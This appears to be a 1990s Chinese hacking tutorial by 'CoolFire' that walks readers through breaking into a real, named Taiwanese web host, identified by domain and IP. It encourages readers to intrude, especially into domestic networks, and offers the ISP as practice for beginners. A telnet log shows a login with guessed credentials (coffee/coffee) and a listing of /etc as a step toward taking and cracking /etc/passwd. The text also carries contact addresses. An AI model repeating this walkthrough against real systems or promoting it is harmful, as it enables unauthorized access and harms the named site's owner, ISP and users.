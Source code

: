看看最近兴起的网路咖啡及各大网站的系统安全设施, 再加上 CoolFire 最近开会的时候遇到的情况, 不难发现我们的国家正往高科技的领域快步迈进, 但是这些系统的安全性若不加强,  可能到时候人家只要一台电脑再加上一台数据机就可以让整个国家的金融及工商业 溃! 大家要小心呀 ! ISP 是一般 User 拨接的源头, 技术上理应比较强, 但还是轻易让人入侵, 且又没有教导 User 正确 的网路使用观念 (Password 的设定及 proxy 的使用等), 实在不敢想像这样的网路发展到几年後会是甚麽样子 ??

这一次的说明还是没有谈到新的技巧, 在 James 将首页更新後各位应该已经可以从中学到许多东西了, 如果想要学习入侵, 就一定要知道最新的资讯 (入侵本国的网路则不用, 反正没人重视网路安全..... 真失望), 在别人还没将 Bug 修正之前就抢先一步拿到 /etc/passwd, 所以订阅一些网路安全的 Mail List 是必要的, 多看一些网安有关的 News Group 也是必要的 (不仅 Hacker 如此, ISP 更要多注意这些资讯!). 日後有空再整里一些 Mail List 给大家 !!

本次主题: 说明如何连接该 ISP 并且对其 /etc/passwd 解码
连接位址: www.coffee.com.tw (203.66.169.11)
特别说明: 由於本次主题说明重点使用真实的位址及名称, 所以 CoolFire 已经 Mail 给该网页之维护人员更改密码, 但该网页之 ISP 仍为新手之练习好题材! CoolFire

Mail 给该网页维护人员之信件内容如下, 如果他还不尽快改掉, 我也没办法了!

Mail sent to dhacme@tp.globalnet.com.tw:
Subject: 请速更动网页密码
From: CoolFire <coolfires@hotmail.com>

你的网页作得不错, 但是因为你所设定的密码太容易为骇客所? 入侵, 请於见到此信後速速更改你的网页进入密码, 否则下次若网页遭到篡改, 本人概不负责!!

**课程开始**

请注意: 由於本次所作的课程内容以实作为主, 除了本人 IP 有所更改, 一切都使用本人所用之 Telnet 软体 Log 档收录, 故若道德感不佳者请勿阅读以下之详细破解内容, 否则本人概不负责!

(连线到某一主机之後.... 此处的 ms.hinet.net.tw 是假的 Domain name)

```bash
ms.hinet.net.tw> telnet www.coffee.com.tw
Trying 203.66.169.11...
Connected to www.coffee.com.tw.
Escape character is '^]'.
Password: (随便按一下 Enter)
Login incorrect

www login: coffee (以 Hacker 的敏锐判断 username=coffee password=coffee)
Password:
Last login: Thu Jan 9 10:41:52 from ms.hinet.net.tw
欢 迎 光 临 ....... 以下略! 因涉及该 ISP 的名誉, 大家自己去看吧!
```

(直接进入核心部份)

```bash
www:~$ cd /etc
www:/etc$ ls
DIR_COLORS hosts.equiv printcap
HOSTNAME hosts.lpd profile
NETWORKING inet@ protocols
NNTP_INEWS_DOMAIN inetd.conf psdevtab
X11@ inittab rc.d/
at.deny inittab.gettyps.sample resolv.conf
bootptab ioctl.save rpc
csh.cshrc issue securetty
csh.login issue.net securetty.old
default/ klogd.pid sendmail.cf
diphosts ld.so.cache sendmail.st
exports ld.so.conf services
fastboot lilo/ shells
fdprm lilo.conf shutdownpid
fs/ localtime skel/
fstab magic slip.hosts
ftp.banner mail.rc slip.login
ftp.deny motd snooptab
ftpaccess motd.bak sudoers
ftpconversions msgs/ syslog.conf
ftpgroups mtab syslog.pid
ftpusers mtools termcap
gateways named.boot ttys
gettydefs networks utmp@
```